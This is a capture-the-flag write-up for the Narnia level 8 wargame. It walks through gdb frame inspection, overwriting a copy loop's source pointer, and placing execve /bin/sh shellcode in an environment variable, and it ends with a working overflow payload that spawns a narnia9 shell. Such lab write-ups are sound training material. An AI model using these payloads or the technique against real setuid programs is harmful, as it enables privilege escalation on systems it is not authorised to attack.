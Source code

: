 ```
 called by frame at 0xffffd720
 Arglist at 0xffffd6f8, args:
 Locals at 0xffffd6f8, Previous frame's sp is 0xffffd700
 Saved registers:
  ebp at 0xffffd6f8, eip at 0xffffd6fc
(gdb) p 0xffffd6fc-0xffffd6d8
$1 = 36
```

Notice that when `i=20` the LSB of the base address (`blah`) is overwritten. Overwriting this value with the the same value minus 20, will cause the next byte to be read from `blah+1` (second char of `blah`), as `-20+21=1`, thereby copying `blah` for the second time onto the stack, but to higher addresses, until finally overwriting the return address with `blah[16]-blah[19]` (inclusive). Overall, 21 bytes are needed.

Lets make the program segfault and extract the addresses of our shellcode and `blah`:

```
narnia8@melinda:/narnia$ mkdir /tmp/doge8
narnia8@melinda:/narnia$ cd /tmp/doge8
narnia8@melinda:/tmp/doge8$ vim same_fucking_shellcode.asm
narnia8@melinda:/tmp/doge8$ nasm same_fucking_shellcode.asm 
narnia8@melinda:/tmp/doge8$ export BANECAT=$(cat same_fucking_shellcode)
narnia8@melinda:/tmp/doge8$ cp /narnia/narnia8 .
narnia8@melinda:/tmp/doge8$ ulimit -c unlimited
narnia8@melinda:/tmp/doge8$ ./narnia8 $(python -c "print '\x41'*20 + '\x99'")
Segmentation fault (core dumped)
narnia8@melinda:/tmp/doge8$ gdb -q -c ./core
[New LWP 28703]
Core was generated by `...`
Program terminated with signal 11, Segmentation fault.
#0  0x08048451 in ?? ()
(gdb) x/10xw $ebp
0xffffd6f8:     0xffffd718      0x0804848d      0xffffd8e0      0x00000000
0xffffd708:     0x080484b9      0xf7fceff4      0x080484b0      0x00000000
0xffffd718:     0x00000000      0xf7e454b3
(gdb) x/s 0xffffd8e0
0xffffd8e0:      'A' <repeats 20 times>"\231, "
(gdb) x/6s $esp+0x800
0xffffdec0:      "sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xffffdefd:      "PWD=/tmp/doge8"
0xffffdf0c:      "LANG=en_US.UTF-8"
0xffffdf1d:      "SHLVL=1"
0xffffdf25:      "HOME=/home/narnia8"
0xffffdf38:      "BANECAT=1\300Ph//shh/bin\211\343P\211\342P\211\341\260\v\315\200"
```

Therefore:
```
narnia8@melinda:/narnia$ ./narnia8 $(python -c "print '\x41' + '\xd8\xff\xff' + '\x41'*12 + '\x40\xdf\xff\xff' + '\xcc'")
$ whoami
narnia9
```
And we are done!
